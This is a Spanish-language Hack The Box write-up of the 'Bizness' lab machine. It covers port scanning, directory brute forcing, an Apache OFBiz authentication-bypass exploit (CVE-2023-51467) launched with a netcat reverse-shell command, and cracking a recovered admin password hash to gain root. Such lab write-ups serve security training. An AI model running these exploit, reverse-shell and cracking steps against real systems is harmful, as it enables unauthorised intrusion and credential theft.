 ```yaml
---
layout: writeup
category: pingu489
chall_description: 
points: 20
solves: 
tags: 
date: 2024-04-27
comments: true
---
```

---
Hack The Box 

Maquina: Bizness

Objetivo: 

Dificultad: Facil


---
## Escaneo
Fase 1: Escaneo de puertos 

Con nmap haremos un escaneo con la ip que nos proporciona htb para ver que puertos tiene abiertos y esta utilizando la maquina.



```
$ nmap -sV 10.10.11.252
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-02 05:32 CEST
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.050s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp  open  http     nginx 1.18.0
443/tcp open  ssl/http nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```
Esta utilizando el puerto 80, asi que tiene una pagina web activa.

![Branching](/assets/images/bizznes/biznessweb.jpg

Intente utilizar varias veces la herramienta que utilice en la maquina devvortex pero me daba un error asi que probe "dirbuster" que es una alternativa y busque los directorios ocultos y uno me llamo la atencion... se llamaba "control/login", al tener el nombre de login supuse que seria el login de la pagina.
```
(pingu㉿kaliPingu)-[~]
└─$ dirbuster -u https://bizness.htb                      
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200

Dir found: /control/login/ - 200


```

Y lo era!

![Branching](/assets/images/bizznes/loginweb.jpg

Probe las tipicas contraseñas como "admin" "root" pero nada... y me fije arriba que ponia : OFBizz

Busque en google y formaba parte de apache, el sistema de host de linux y tras buscar una vulnerabilidad encontre una llamada : CVE-2023-51467

Esta vulnerabilidad permite a los atacantes y eludir los procesos de autenticación,permitiendo ejecutar codigo.... asi que era perfecto!

En el siguiente enlace de google tenia ya el repositorio github!

https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass


Con el comando "git clone" copiaremos el repositorio y comprobaremos que lo tenemos todo dentro dela carpeta.
```
(pingu㉿kaliPingu)-[~/Escritorio]
└─$ git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass
Clonando en 'Apache-OFBiz-Authentication-Bypass'...
remote: Enumerating objects: 19, done.
remote: Counting objects: 100% (14/14), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 19 (delta 3), reused 7 (delta 1), pack-reused 5
Recibiendo objetos: 100% (19/19), 51.44 MiB | 12.47 MiB/s, listo.
Resolviendo deltas: 100% (3/3), listo.
                                                                                                               
┌──(pingu㉿kaliPingu)-[~/Escritorio]
└─$ cd Apache-OFBiz-Authentication-Bypass 
                                                                                                               
┌──(pingu㉿kaliPingu)-[~/Escritorio/Apache-OFBiz-Authentication-Bypass]
└─$ ls
exploit.py  README.md  xdetection.py  ysoserial-all.jar

```

Vayamos por partes, como dijo jack el destripador:

Primero nos pondremos en escucha por el puerto 444

```
(root㉿kaliPingu)-[/home/pingu/Escritorio/Apache-OFBiz-Authentication-Bypass]
└─# nc -lvnp 4444

```
Iremos a otra terminal dejando esa en escucha.

En esta nueva terminal ejecutarmeos el exploit con el comando como nos explica en el repositorio github pero añadiremos un extra.

Desde la web https://www.revshells.com crearemos un comando para la reversell poniendo nuestra ip ( la que nos proporciona la VPN de HTB y) y elpuerto 4444 y copiaremos el comando y lo pondremos al final entre las comillas.

```
─(root㉿kaliPingu)-[/home/pingu/Escritorio/Apache-OFBiz-Authentication-Bypass]
└─# python3 exploit.py --url https://bizness.htb --cmd 'nc -c sh 10.10.14.13 4444'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
```

Ahora iremos a la otra ventana de la terminal con el puerto en escucha 444 y podremos escrbir id y veremos que estaremos dentro.ponemos el comando para indicarle la bash y asi trabajar mas comodos!

## Primera bandera


```
script /dev/null -c /bin/bash
```

Ahora nos moveremos por los directorios hacia atras usando los ".." y iremos a la carpeta del usuario ofbiz y haremos cat con el archivo y veremos la bandera.

```
ofbiz@bizness:/opt/ofbiz$ ls
ls
APACHE2_HEADER  DOCKER.md                INSTALL              runtime
applications    docs                     lib                  SECURITY.md
build           framework                LICENSE              settings.gradle
build.gradle    gradle                   NOTICE               themes
common.gradle   gradle.properties        npm-shrinkwrap.json  VERSION
config          gradlew                  OPTIONAL_LIBRARIES
docker          gradlew.bat              plugins
Dockerfile      init-gradle-wrapper.bat  README.adoc
ofbiz@bizness:/opt/ofbiz$ cd ..
cd ..
ofbiz@bizness:/opt$ ls
ls
ofbiz
ofbiz@bizness:/opt$ cd ..
cd ..
ofbiz@bizness:/$ ls
ls
bin   home            lib32       media  root  sys  vmlinuz
boot  initrd.img      lib64       mnt    run   tmp  vmlinuz.old
dev   initrd.img.old  libx32      opt    sbin  usr
etc   lib             lost+found  proc   srv   var
ofbiz@bizness:/$ cd home
cd home
ofbiz@bizness:/home$ ls
ls
ofbiz
ofbiz@bizness:/home$ cd ofbiz
cd ofbiz
ofbiz@bizness:~$ ls
ls
user.txt
ofbiz@bizness:~$ cat user.txt
cat user.txt
```

Ya tenemos la primera bandera! ahora vamos a por la segunda :D

## Ser Root

Dentro del directorio "/opt/ofbiz/framework/resources/templates" Tendremos
un archivo llamado AdminUserLoginData.xml y tras leerlo con cat veremos un codigo con "SHA" significa que la contraseña esta encripatada y tendremos que desencripatarla, pero esa no es la que necesitamos!

Iremos a la direccion : /opt/ofbiz/runtime/data/derby/ofbiz/seg0 y aqui veremos con "ls" muchisimos archivos , pues con grep filtraremos para ver todo lo que contiene SHA y strings.


 ```
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ strings * | grep SHA
strings * | grep SHA
SHA-256
MARSHALL ISLANDS
SHAREHOLDER
SHAREHOLDER
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
 ```
Y.. BINGO! ya tenemos el sha bueno, ahora toca desencriparlo

Utilizaremos una herramienta que he encontrado en github

https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker

Con git clone copiaremos el repositorio en el escritorio y usaremos esa clave para descifrar la contraseña.


```
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

```
# python3 OFBiz-crack.py --hash-string '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I' wordlist /home/pingu/Escritorio/Diccionarios/rockyou.txt
[+] Attempting to crack....
Found Password: monkeybizness
hash: $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
(Attempts: 1478438)
[!] Super, I bet you could log into something with that!


```

Como veremos la contraseña es monkeybizness asi que haremos el comando su root y pondremos la contraseña, luego iremos a "cd /root " y con ls veremos la ultima bandera.

```
root@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0# cd /root
cd /root
root@bizness:~# ls
ls
root.txt
root@bizness:~# cat root.txt
cat root.txt

```



Conclusion: La verdad es que esta maquina ha requerido mas busquedas en internet, sobretodo para descifrar la clave del sha, por que la primera que descubrimos no es y hay que buscar mas a fondo en los archivos de la carpeta, pero al final ayudandonos de google ( que para eso esta) conseguimos sacarla.
Una maquina que me ha gustado mucho por el uso del descifrado de contraseñas!







https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker
